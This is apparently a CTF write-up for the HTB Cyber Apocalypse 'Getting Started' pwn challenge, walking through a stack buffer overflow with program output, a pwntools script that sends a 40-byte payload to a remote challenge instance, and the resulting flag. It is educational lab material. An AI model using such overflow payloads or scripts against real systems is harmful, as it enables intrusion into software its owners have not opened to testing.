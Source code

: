 ```yaml
---
external: false
draft: false
title: PWN - Getting Started
snippet: ""
image:
  {
    src: "/images/htb/htb_ca_ctf.png",
    alt: "full stack web development",
  }
publishDate: 2023-03-21
category: "HTB Cyber Apocalypse"
author: "Ugur Ilter"
tags: [ctf, hacking, security]
---
```


```
Getting Started
Get ready for the last guided challenge and your first real exploit. It's time to show your hacking skills.

Points: 300
Difficulty: Very Easy
```

In this challenge you are given a docker instance and also some files that you can download.
The archive consisted of 3 files (flag.txt, gs, wrapper.py) and a folder which had some linux shared objects for the binary to run.
Running the gs binary i was again welcomed by a wall of text.

```
➜  challenge ./gs

Stack frame layout 

|      .      | <- Higher addresses
|      .      |
|_____________|
|             | <- 64 bytes
| Return addr |
|_____________|
|             | <- 56 bytes
|     RBP     |
|_____________|
|             | <- 48 bytes
|   target    |
|_____________|
|             | <- 40 bytes
|  alignment  |
|_____________|
|             | <- 32 bytes
|  Buffer[31] |
|_____________|
|      .      |
|      .      |
|_____________|
|             |
|  Buffer[0]  |
|_____________| <- Lower addresses


      [Addr]       |      [Value]       
-------------------+-------------------
0x00007ffd0d8a47e0 | 0x0000000000000000 <- Start of buffer
0x00007ffd0d8a47e8 | 0x0000000000000000
0x00007ffd0d8a47f0 | 0x0000000000000000
0x00007ffd0d8a47f8 | 0x0000000000000000
0x00007ffd0d8a4800 | 0x6969696969696969 <- Dummy value for alignment
0x00007ffd0d8a4808 | 0x00000000deadbeef <- Target to change
0x00007ffd0d8a4810 | 0x000055c23668e800 <- Saved rbp
0x00007ffd0d8a4818 | 0x00007f2a4388ec87 <- Saved return address
0x00007ffd0d8a4820 | 0x0000000000000001
0x00007ffd0d8a4828 | 0x00007ffd0d8a48f8


After we insert 4 "A"s, (the hex representation of A is 0x41), the stack layout like this:


      [Addr]       |      [Value]       
-------------------+-------------------
0x00007ffd0d8a47e0 | 0x0000000041414141 <- Start of buffer
0x00007ffd0d8a47e8 | 0x0000000000000000
0x00007ffd0d8a47f0 | 0x0000000000000000
0x00007ffd0d8a47f8 | 0x0000000000000000
0x00007ffd0d8a4800 | 0x6969696969696969 <- Dummy value for alignment
0x00007ffd0d8a4808 | 0x00000000deadbeef <- Target to change
0x00007ffd0d8a4810 | 0x000055c23668e800 <- Saved rbp
0x00007ffd0d8a4818 | 0x00007f2a4388ec87 <- Saved return address
0x00007ffd0d8a4820 | 0x0000000000000001
0x00007ffd0d8a4828 | 0x00007ffd0d8a48f8


After we insert 4 "B"s, (the hex representation of B is 0x42), the stack layout looks like this:


      [Addr]       |      [Value]
-------------------+-------------------
0x00007ffd0d8a47e0 | 0x4242424241414141 <- Start of buffer
0x00007ffd0d8a47e8 | 0x0000000000000000
0x00007ffd0d8a47f0 | 0x0000000000000000
0x00007ffd0d8a47f8 | 0x0000000000000000
0x00007ffd0d8a4800 | 0x6969696969696969 <- Dummy value for alignment
0x00007ffd0d8a4808 | 0x00000000deadbeef <- Target to change
0x00007ffd0d8a4810 | 0x000055c23668e800 <- Saved rbp
0x00007ffd0d8a4818 | 0x00007f2a4388ec87 <- Saved return address
0x00007ffd0d8a4820 | 0x0000000000000001
0x00007ffd0d8a4828 | 0x00007ffd0d8a48f8

◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉
◉                                                                                                 ◉
◉  Fill the 32-byte buffer, overwrite the alginment address and the "target's" 0xdeadbeef value.  ◉
◉                                                                                                 ◉
◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉

>>
```

In order to reach the flag you need to fill 32 + 8 = 40 bytes of data in to the buffer and overwrite the given target address which has '0xdeadbeef' as a value in it.
But running this attack locally only gives you the fake flag which was put there for testing purposes. In order to acquire the real flag you need to run the attack on the docker instance. So i modified the given 'wrapper.py' python script. Using pwntools i successfully acquired the flag after sending 40 bytes of data to the docker instance.

```python
#!/usr/bin/python3.8
from pwn import *

# connection info
IP   = '188.166.152.84'
PORT = 31791

# start remote connection
r = remote(IP, PORT)

# craft payload
payload = b'A' * 40

# wait until prompt
r.recvregex(b'>>')

# Send payload
r.sendline(payload)

# Read flag
success(f'Flag --> {r.recvline_contains(b"HTB").strip().decode()}')
```


![HTB](/images/htb/pwn/getting_started/flag.png)

```
Flag: HTB{b0f_s33m5_3z_r1ght?}
```